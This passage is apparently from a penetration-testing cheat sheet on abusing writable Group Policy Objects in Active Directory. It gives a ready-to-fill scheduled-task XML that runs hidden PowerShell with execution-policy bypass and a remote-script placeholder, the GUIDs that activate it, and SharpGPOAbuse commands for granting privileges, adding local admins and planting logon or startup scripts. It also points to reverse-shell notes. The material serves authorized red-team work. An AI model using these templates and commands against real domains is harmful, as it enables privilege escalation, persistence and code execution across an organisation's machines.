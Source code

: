 The user immediate task GPO file paths is:
  - `\\<DOMAIN>\SYSVOL\<DOMAIN_FQDN>\Policies\<GPO_GUID>\USER\Preferences\ScheduledTasks`

```
# Update <DOMAIN> and <INLINE-POWERSHELL | IEX_REMOTE_SCRIPT>

<?xml version="1.0" encoding="utf-8"?>
<ScheduledTasks clsid="{CC63F200-7309-4ba0-B154-A71CD118DBCC}"><ImmediateTaskV2 clsid="{9756B581-76EC-4169-9AFC-0CA8D43ADB5F}" name="TEST" image="0" changed="2019-12-15 13:23:18" uid="{2EC4BE03-2A6A-4C50-A0E6-7FBEA834E265}"><Properties action="C" name="TEST" runAs="%LogonDomain%\%LogonUser%" logonType="InteractiveToken"><Task version="1.3"><RegistrationInfo><Author><DOMAIN>\Administrator</Author><Description></Description></RegistrationInfo><Principals><Principal id="Author"><UserId>%LogonDomain%\%LogonUser%</UserId><LogonType>InteractiveToken</LogonType><RunLevel>HighestAvailable</RunLevel></Principal></Principals><Settings><IdleSettings><Duration>PT5M</Duration><WaitTimeout>PT1H</WaitTimeout><StopOnIdleEnd>false</StopOnIdleEnd><RestartOnIdle>false</RestartOnIdle></IdleSettings><MultipleInstancesPolicy>IgnoreNew</MultipleInstancesPolicy><DisallowStartIfOnBatteries>false</DisallowStartIfOnBatteries><StopIfGoingOnBatteries>false</StopIfGoingOnBatteries><AllowHardTerminate>false</AllowHardTerminate><StartWhenAvailable>true</StartWhenAvailable><AllowStartOnDemand>false</AllowStartOnDemand><Enabled>true</Enabled><Hidden>true</Hidden><ExecutionTimeLimit>PT0S</ExecutionTimeLimit><Priority>7</Priority><DeleteExpiredTaskAfter>PT0S</DeleteExpiredTaskAfter></Settings><Triggers><TimeTrigger><StartBoundary>%LocalTimeXmlEx%</StartBoundary><EndBoundary>%LocalTimeXmlEx%</EndBoundary><Enabled>true</Enabled></TimeTrigger></Triggers><Actions Context="Author"><Exec><Command>C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe</Command><Arguments>-nop -Win Hidden -exec bypass -c "<INLINE-POWERSHELL | IEX_REMOTE_SCRIPT>"</Arguments></Arguments></Exec>
				</Actions></Task></Properties></ImmediateTaskV2>
</ScheduledTasks>
```

The following GUID must be added in the `gPCUserExtensionNames` attribute in
order to make the immediate task effective:

```
[{00000000-0000-0000-0000-000000000000}{CAB54552-DEEA-4691-817E-ED4A4D1AFC72}][{AADCED64-746C-4633-A97C-D61349046527}{CAB54552-DEEA-4691-817E-ED4A4D1AFC72}]
```

###### SharpGPOAbuse

`SharpGPOAbuse` is a C# tool that can be used to automate the process of
exploiting an editable GPO. The utility supports the following exploitation
techniques:
  - add the specified rights to a domain user
  - add a domain user to the local Administrators group of the computer
  - add a new computer start up script
  - add a new user logon script
  - add a computer or user immediate task

```
# SharpGPOAbuse can be run on an out of the domain computer through a runas session
runas /NetOnly /user:<DOMAIN>\<USERNAME> powershell.exe
SharpGPOAbuse.exe --DomainController <DC_IP> --Domain <DOMAIN>

# Add the specified rights to an user
# The privileges are specified in a case sensitive comma separated list
# The \\<DOMAIN>\SYSVOL\<DOMAIN_FQDN>\Policies\<GPO_GUID>\MACHINE\Microsoft\Windows
NT\SecEdit\GptTmpl.inf file should includes the specified privileges with the given account SID
SharpGPOAbuse.exe --AddUserRights --UserRights "SeTakeOwnershipPrivilege,SeDebugPrivilege,SeAuditPrivilege,SeRemoteInteractiveLogonRight" --UserAccount "<DOMAIN>\<USERNAME>" --GPOName "<GPO_NAME>"

# Add a domain user to the local Administrators group of the computer
SharpGPOAbuse.exe --AddLocalAdmin --UserAccount "<DOMAIN>\<USERNAME>" --GPOName "<GPO_NAME>"

# Add a new computer start up or user logon script
# Refer to the "General - Shells" note for starting a reverse PowerShell  
SharpGPOAbuse.exe <--AddUserScript | --AddComputerScript> --ScriptName "<SCRIPT_NAME>" --ScriptContents "<SCRIPT>" --GPOName "<GPO_NAME>"
```